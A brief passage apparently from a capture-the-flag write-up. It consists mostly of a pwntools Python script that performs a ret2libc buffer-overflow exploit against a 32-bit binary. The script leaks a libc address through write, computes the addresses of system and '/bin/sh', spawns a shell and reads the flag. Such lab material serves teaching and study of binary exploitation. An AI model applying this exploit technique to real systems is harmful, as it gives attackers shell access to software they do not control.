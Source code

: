    ```python
   p.recvuntil(b'Input:\n')
   payload = b'a'*(0x88+4)+p32(plt)+p32(main_addr)+p32(1)+p32(got)+p32(8)
   p.sendline(payload)
   addr = u32(p.recvuntil(b'\xf7'))
   print(hex(addr))
   
   #libc = LibcSearcher('printf',addr)
   libc_base = addr - libc.sym['write']
   sys_addr = libc_base + libc.sym['system']
   sh_addr = libc_base + next(libc.search(b'/bin/sh'))
   print(hex(libc_base),hex(sys_addr),hex(sh_addr))
   
   p.recvuntil(b'Input:\n')
   payload = b'a'*(0x88+4)+p32(sys_addr)+p32(0x0804844B)+p32(sh_addr)
   p.sendline(payload)
   
   p.sendline(b'cat flag')
   p.interactive()
   
   ```

   ![image-20240603161838389](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406031618503.png)
